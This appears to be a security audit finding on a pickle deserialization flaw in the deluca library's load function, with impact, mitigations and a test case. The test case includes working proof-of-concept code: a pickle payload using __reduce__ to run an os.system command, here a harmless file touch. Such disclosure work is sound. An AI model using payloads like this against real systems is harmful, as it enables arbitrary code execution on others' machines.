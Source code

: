 - Vulnerability Name: Pickle Deserialization Vulnerability
- Description:
    1. The `deluca.core.load` function is used to load Python objects from a file path. This function utilizes the `pickle.load` method for deserialization.
    2. An attacker can create a malicious pickle file containing arbitrary code.
    3. If an attacker can control or influence the `path` argument provided to the `deluca.core.load` function, they can point it to their malicious pickle file.
    4. When `deluca.core.load` is called with the attacker-controlled path, `pickle.load` deserializes the malicious object.
    5. During deserialization, the malicious code embedded within the pickle file is executed, leading to arbitrary code execution.
- Impact:
    - Arbitrary code execution on the system where the `deluca` library is used.
    - Full system compromise, including unauthorized access to data, system modifications, and potential data breaches.
    - In reinforcement learning systems, this could be exploited during model loading, potentially compromising the training process or deployed models.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None. The code directly uses `pickle.load` without any input validation or security measures.
- Missing Mitigations:
    - Replace `pickle` with a safer serialization format like JSON or Protocol Buffers, especially for loading data from potentially untrusted sources.
    - If `pickle` is necessary, implement strict input validation on the file path to ensure only trusted files are loaded from known safe locations. However, even with path validation, the risk of malicious content within pickled files remains high.
    - Consider using digital signatures or integrity checks to verify the authenticity and integrity of pickled files before loading.
- Preconditions:
    - Attacker can control or influence the file path argument passed to the `deluca.core.load` function. This could happen through various means, such as:
        - Configuration file injection if the path is read from a configuration.
        - Command injection if the path is constructed from user input in a command-line interface.
        - Social engineering to trick a user into loading a malicious file.
- Source Code Analysis:
    - File: `/code/deluca/core.py`
    ```python
    import pickle

    def load(path):
      return pickle.load(open(path, "rb"))
    ```
    - The `load` function directly calls `pickle.load(open(path, "rb"))`. This is inherently unsafe because `pickle.load` is known to be vulnerable to deserialization attacks when used with untrusted data. There is no input validation, sanitization, or any other security measure in place to prevent malicious pickle files from being loaded.
- Security Test Case:
    1. Create a malicious pickle file named `malicious.pkl` with the following Python code:
    ```python
    import pickle
    import os

    class MaliciousPayload:
        def __reduce__(self):
            return (os.system, ('touch /tmp/deluca_pwned',))

    payload = MaliciousPayload()
    pickle.dump(payload, open('malicious.pkl', 'wb'))
    ```
    This code, when deserialized, will execute the command `touch /tmp/deluca_pwned`, creating an empty file named `deluca_pwned` in the `/tmp/` directory.
    2. Save the `malicious.pkl` file in the `/tmp/` directory.
    3. Create a Python script `test_exploit.py` with the following content:
    ```python
    from deluca.core import load

    malicious_file_path = '/tmp/malicious.pkl'
    load(malicious_file_path)
    ```
    4. Run the `test_exploit.py` script from your terminal: `python test_exploit.py`
    5. After running the script, check if the file `/tmp/deluca_pwned` exists. You can check this using the command `ls /tmp/deluca_pwned`.
    6. If the file `/tmp/deluca_pwned` exists, it confirms that the malicious code within `malicious.pkl` was executed when `deluca.core.load` was called, demonstrating the Pickle Deserialization Vulnerability.